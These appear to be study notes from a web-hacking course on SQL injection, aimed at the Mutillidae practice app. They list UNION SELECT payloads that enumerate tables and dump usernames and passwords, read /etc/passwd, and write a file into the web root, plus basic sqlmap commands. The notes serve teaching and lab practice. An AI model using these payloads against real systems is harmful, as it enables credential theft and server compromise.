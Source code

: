 ### Reading Database Info
We have to use ==ORDER BY==
* Paste all the below codes in the GET URL like before
* Find out the no. of columns by typing it in the URL(trial and error, like order by 6, order by 4, etc).
* We found out col is 5 in our case.
* Normally we use select to select the cols, but since we are using multiple selects and using a URL we do ==union select==
 
          union select 1, 2, 3, 4, 5
* The output of the above in our case shows that only col 2, 3, 4 are visible.
* Now to see our database

           union select 1, database(), user(), version(), 5
* We get the database name as 'owasp10', which is the database of mutillidae.
* Now to discover the tables in our database (==information_schema== is a default database created by mysql and it contains info about all other databases)

           union select 1, table_name, null, null, 5 from information_schema.tables where table_schema = 'owasp10'
* Now we are going to get the columns of 'accounts' table

           union select 1, column_name, null, null, 5 from information_schema.columns where table_name = 'accounts'
* We get the columns - cid, username, password, mysignature, is_admin
* Now let's get the usernames and passwords

           union select 1, username, password, is_admin, 5 from accounts
           
### Reading and Writing files on the server using SQLI vuln
* To read (the file is same as we used for previous read write vulnerability)

          union select null, load_file('/etc/passwd'), null, null, null 
* To write into server

          union select null, 'example example', null, null, null  into outfile '/var/www/mutillidae/example.txt'
* So we are ging to write 'example example' into a new file called example.txt

### Doing SQLI using a tool = ==SQLMAP==
* Tool designed to exploit sql injections
* Works with many db types - mysql, mssql,etc
* Can be used to perform everything we learned and more

To run it
* We have to have the target url ( url of login page)

          sqlmap "target_url"
* Now tool automatically look through if anything is injectable
* To get all database

          sqlmap "target_url" --dbs
* To get current user

          sqlmap "target_url" --current-user
* To get current database
